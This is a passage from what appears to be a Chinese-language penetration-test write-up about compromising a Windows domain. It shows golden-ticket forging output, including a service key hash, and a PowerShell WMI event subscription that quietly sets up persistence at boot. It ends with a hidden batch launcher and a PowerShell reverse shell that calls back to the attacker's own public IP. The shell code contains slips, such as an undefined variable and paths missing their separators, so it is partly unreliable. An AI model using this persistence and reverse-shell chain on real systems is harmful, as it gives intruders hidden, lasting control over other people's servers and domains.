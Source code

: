 ```
SID     : S-1-5-21-3534665177-2148510708-2241433719
User Id : 500
Groups Id : *513 512 520 518 519
ServiceKey: 3003567af268a4a94e26f410e84353f1 – rc4_hmac_nt
Lifetime : 2/17/2017 4:02:10 PM ; 2/17/2027 4:02:10 PM ; 3/3/2027 4:02:10 PM
-&gt; Ticket : admin.krb
* PAC generated
* PAC signed
* EncTicketPart generated
* EncTicketPart encrypted
* KrbCred generated
```

最后将Ticket存到文件中就好了,在这之后，我们挑出admin.krb文件，之后会用到。

<br>

**权限维持**

在离开系统之前，我们必须设置一个能够维持对暴露在公网的服务器访问的方法，以供日后使用。在这一步，不被发现并不容易，即使是新手系统管理员也会发现一些端倪。

我们选择了一个机遇WMI特性的更加复杂的方法，利用了InstanceModificationEvent。

在一个WMI对象实例改变了它的寄存器时，它都是作为一个InstanceModificationEvent。在这样的条件下，我们过滤了事件系统启动时间，在系统启动200到300秒之内，我们将为eventconsumer提供一个commandlineeventconsumer。

在SRVWSUS这台服务器上，我们发送了以下命令：



```
$filterName = “JustForTestFilter”
$consumerName = “JustForTestConsumer”
$exePath = “C:windowshelpwindowsindexstorer.bat”
$Query = “SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA ‘Win32_PerfFormattedData_PerfOS_System’ AND TargetInstance.SystemUpTime &gt;= 200 AND TargetInstance.SystemUpTime &lt; 300”
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace “rootsubscription” -Arguments @{Name=$filterName;EventNameSpace=”rootcimv2″;QueryLanguage=”WQL”;Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace “rootsubscription” -Arguments @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exepath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace “rootsubscription” -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

然后再windows隐藏的文件夹里，创建了r.bat，内容如下：

```
powershell -executionpolicy bypass -windowstyle hidden -f C:windowshelpwindowsindexstorer.ps1
```

而r.ps1文件的内容是：



```
$c=New-Object System.Net.Sockets.TCPClient(‘&lt;OUR_PUBLIC_IP&gt;’,443);
$s=$c.GetStream();[byte[]]$b=0..65535|%{0};
while(($i=$s.Read($b,0,$b.Length))-ne 0){;
$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
$sb=(IEX $data 2&gt;&amp;1 | Out-String );
$sb2=$sb+’PS ‘+(pwd).Path + ‘&gt; ‘;
$sb=([text.encoding]::ASCII).GetBytes($sb2);
$s.Write($sb,0,$sb.Length);
$s.Flush()};
$c.Close()”
```
